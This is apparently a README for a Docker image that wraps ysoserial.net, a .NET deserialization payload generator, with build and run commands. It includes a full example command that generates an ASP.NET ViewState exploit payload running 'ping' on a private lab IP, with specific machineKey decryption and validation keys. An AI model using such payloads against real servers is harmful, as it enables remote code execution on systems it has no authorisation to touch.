


## Dockeriamge for ysoserial.net

### Usage

- Build the image
```bash
docker build -t ysoserial.net .
```

- Run the image
```bash
docker run -dit --name ysoserial ysoserial-image
```

- You can also use the ysoserial_runner.sh script to interact with ysoserial.net
```bash
alias ysoserial='/opt/scripts/ysoserial_runner.sh '

ysoserial run '-p ViewState  -g TextFormattingRunProperties -c "ping 10.10.14.95" --path="/portfolio/default.aspx" --apppath="/" --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43"  --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468"'
```

#### Example



#### Note:
- The image is about 5GB so it will take some time to build and make sure you have enough space on your machine.
 

